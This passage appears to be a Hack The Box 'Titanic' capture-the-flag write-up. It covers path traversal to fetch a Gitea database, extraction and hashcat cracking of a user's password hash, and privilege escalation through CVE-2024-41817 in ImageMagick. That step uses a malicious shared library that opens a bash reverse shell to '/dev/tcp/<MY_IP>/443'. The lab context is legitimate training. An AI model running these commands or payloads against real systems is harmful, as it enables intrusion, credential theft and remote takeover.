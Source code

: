 ```bash
curl "http://titanic.htb/download?ticket=../../../home/developer/gitea/data/gitea/gitea.db" --output ./gitea.db
```

Opening the file within Kali I looked for hashes which were found under the `user` table.

![image](https://i.postimg.cc/63RXkzcY/titanic-hashes.png){: width='1306' height='195'}

This was an unusual hash format for me, I was able to follow steps 0xdf took for a different [box](https://0xdf.gitlab.io/2024/12/14/htb-compiled.html#crack-gitea-hash) which details steps to crack these hashes.

After getting the correct format for `Hashcat` I tried cracking both hashes. The `administrator` account did not crack in a timely manner but `developer`'s did. One-liner steps to get the hash for just the `developer` account along with the command to crack the hash are below:

```bash
sqlite3 gitea.db "SELECT salt,passwd FROM user WHERE name = 'developer'" | read data; salt=$(echo "$data" | cut -d'|' -f1 | xxd -r -p | base64); passwd=$(echo "$data" | cut -d'|' -f2 | xxd -r -p | base64); echo "sha256:50000:${salt}:${passwd}" > developer.hash

hashcat -a 0 developer.hash /usr/share/wordlists/rockyou.txt
```

Since `developer` was known to be an account on the box the cracked password was tested with SSH which was successful for initial access.

#### Privilege Escalation (CVE-2024-41817)

Upon gaining access to the machine's local file system, enumeration quickly revealed interesting files in the `/opt` directory where an `identify_images.sh` was found. The script processes the web page's images with ImageMagick. This likely occurs on a scheduled interval which is a typical theme with unusual bash scripts. I put a `cat.jpg` in the directory and shortly after saw it's metadata get processed so a cronjob was suspected to be running the bash script every minute.

![image](https://i.postimg.cc/nzM2RcKJ/titanic-identify.png){: width='927' height='581'}

Verifying the version of ImageMagick and searching for exploits uncovers these [CVE](https://github.com/ImageMagick/ImageMagick/security/advisories/GHSA-8rxc-922v-phg8) details with a proof of concept for exploitation.

By using a reverse shell in the system command I was able to verify exploitation when the cronjob ran `magick` so long as the `libxcb.so.1` file was created in the `/opt/app/static/assets/images` directory since it's exploiting usage of the empty environment variables and defaulting to the current working directory. The exploit was also manually triggered from the `images` directory with `magick /dev/null /dev/null` as shown in the PoC[^4].

```bash
gcc -x c -shared -fPIC -o ./libxcb.so.1 - << EOF
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

__attribute__((constructor)) void init(){
    system("bash -c 'bash -i >& /dev/tcp/<MY_IP>/443 0>&1'");
    exit(0);
}
EOF
```


[^1]: [https://community.splunk.com/t5/All-Apps-and-Add-ons/How-do-I-configure-a-Splunk-Forwarder-on-Linux/m-p/72078](https://community.splunk.com/t5/All-Apps-and-Add-ons/How-do-I-configure-a-Splunk-Forwarder-on-Linux/m-p/72078)
[^2]: [https://security.openstack.org/guidelines/dg_using-file-paths.html](https://security.openstack.org/guidelines/dg_using-file-paths.html)
[^3]: [https://docs.gitea.com/administration/config-cheat-sheet#database-database](https://docs.gitea.com/administration/config-cheat-sheet#database-database)
[^4]: [https://github.com/ImageMagick/ImageMagick/security/advisories/GHSA-8rxc-922v-phg8](https://github.com/ImageMagick/ImageMagick/security/advisories/GHSA-8rxc-922v-phg8)